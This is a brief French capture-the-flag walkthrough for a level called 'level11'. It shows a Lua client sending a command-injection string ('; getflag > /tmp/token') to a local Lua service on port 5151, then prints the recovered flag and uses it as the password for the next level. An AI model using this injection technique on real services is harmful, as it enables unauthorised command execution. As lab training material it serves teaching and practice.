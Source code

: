 ## 1. Analyser le fichier lua

Lua est un langage de programmation utilisé pour développer des extensions pour les applications.
En l’executant on obtient: 

    lua: ./level11.lua:3: address already in use
    stack traceback:
	[C]: in function 'assert'
	./level11.lua:3: in main chunk
	[C]: ?

## 2. Creer un client qui envoie une commande

    local socket = require("socket")
    local host, port = "127.0.0.1", 5151
    local tcp = assert(socket.tcp())
    tcp:connect(host, port)
    tcp:send("; getflag > /tmp/token\n")
    tcp:close()

Flag dans /tmp/token: fa6v5ateaw21peobuub8ipe6s

## 3. Connexion

su level12

    Mot de passe : fa6v5ateaw21peobuub8ipe6s